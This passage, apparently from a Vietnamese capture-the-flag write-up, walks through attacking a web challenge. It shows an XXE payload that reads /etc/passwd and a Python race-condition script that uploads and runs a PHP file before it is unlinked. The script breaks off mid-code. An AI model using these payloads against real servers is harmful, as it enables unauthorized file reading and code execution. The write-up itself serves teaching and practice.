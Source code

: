 ```xml
------WebKitFormBoundary6KCDZD95hvtjgRwl--
```

Content file mình truyền vào.
```xml
<!--?xml version="1.0" ?-->
<creds>
<user>taidh</user>
<pass>taidh1</pass>
</creds>
```
Kết quả trả về.
![image](https://user-images.githubusercontent.com/54855855/137316945-a18000b8-cc8d-4e76-80a2-00c00d4742cb.png)

- Tiếp tục thử xxe injection vào chỗ `user`

Payload xxe injection
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<creds>
<user>&file;</user>
<pass>taidh1</pass>
</creds>
```
Kết quả là nhận được content của file /etc/passwd nhưng chúng ta không biết flag ở đâu và để có thể đọc được.

![image](https://user-images.githubusercontent.com/54855855/137317353-adbbcf59-a063-4da8-a383-30c384c8111f.png)

- Thì tới đây chúng ta cần RCE để biết được flag ở đâu và đọc được nó. Có một chỗ quan trọng trong code mà chúng ta lợi dụng để có thể RCE là `unlink`, lúc chương trình `unlink` sẽ mất 1 khoảng thời gian, và chúng ta sẽ lợi dụng nó race condition, upload 1 file php lên và file đó sẽ vẫn còn tồn lại và từ đó có thể chạy được file php.
- Truy cập vào `upload/id/my_file.php` để đọc chạy file php.

### Payload
- Code race `race.py`. Mọi người nhớ thay session và id nhé.
```py
import requests
import string
import sys
import threading

r = requests.session()

url = "http://62.84.114.238/"
cookie={ "PHPSESSID":"6c1df1166b66365e482a4841d920172e"} # thay session

def upload():
    files = {"data": open("check.php", "rb")}
    res = r.post(url, files=files,data={"data":"taidh"},cookies=cookie)
    print(res.text)

def excute_php():
    a = r.get(url+"upload/cf8828cf95abdb5e046d30e4f6006588/check.php") #thay id
    print(a.text)


if __name__ == "__main__":
    for i in range(1,500):
        t = threading.Thread(target = upload)
        t1 = threading.Thread(target = excute_php)
```